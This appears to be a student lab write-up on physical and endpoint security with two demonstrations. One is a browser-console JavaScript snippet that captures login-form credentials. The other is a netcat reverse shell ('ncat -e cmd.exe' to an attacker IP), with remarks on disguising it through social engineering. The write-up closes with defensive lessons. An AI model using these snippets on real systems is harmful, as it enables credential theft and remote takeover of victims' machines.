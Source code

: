 # Activity 4 - Physical Security

## 1. Javascript Injection

We write this Javascript into console:

```javascript
document
  .getElementById("loginForm")
  .addEventListener("submit", () =>
    alert(
      "your username: " +
        document.getElementById("username").value +
        "\nyour password: " +
        document.getElementsByName("password")[0].value
    )
  );
```

In this code, we get the form element from the DOM and add an event listener that will run our code when the form submits. On submission, we will get the value of the username and password text fields from the DOM by the id/name of the text field elements, and alert the value. We could change from alerting the value to sending it to our server, for example, to steal the username and password.

The below image shows the result when form is submitted. (If the username and password are correct the user will also log in successfully. If this is undesired, we can use `event.preventDefault()`)

![01](01.png)

## 2. Trojan Horse

In this exercise, one computer acts as the attacker and the other computer as the victim. The attacker uses netcat to listen on a specified port (59999 in this case) with the command `ncat -l -p 59999`, and has the victim send a remote shell to the hacker using the command `ncat -e cmd.exe [IP of Hacker] 59999`. In actual cases the victim would probably be tricked into running this command, but in our exercise the victim enters this command intentionally. With this, the attacker can now control the victim’s computer through the remote shell.

The following image shows the attacker after the victim has sent the remote shell. As you can see, the attacker can explore the victim's computer.

![02](02.jpg)

## 3. Lessons Learned

When you leave your computer unattended and a hacker can physically access it, it is possible for the hacker to plant serious threats on your computer. The threat could only affect your computer - for example, the hacker could inject Javascript into your browser in order to manipulate or steal your personal information, like in Exercise 1, or run a script to harm your computer and data.

A worse scenario would be if the hacker plants something that can also spread and attack other computers. For example, the hacker plants a worm on your computer. The worm spreads through the network to other devices and infects them, causing widespread harm depending on the worm’s payload (ransomware attack, steal data, delete files, etc.).

Other than physically accessing a computer, hackers can also remotely manipulate a computer, such as by using netcat to construct a Trojan horse. This could be done by disguising the netcat remote shell command as a different program (e.g. an innocuous email attachment) and tricking a user into running it through social engineering, for example.

As a user, we should prevent ourselves from physical attacks by physical security measures such as lock screens, placing your computer in a secure location, or multifactor authentication on the device. To protect ourselves from malware that can remotely manipulate our computer, we should check our security settings, have antivirus software installed, and be wary of social engineering attacks and suspicious programs.
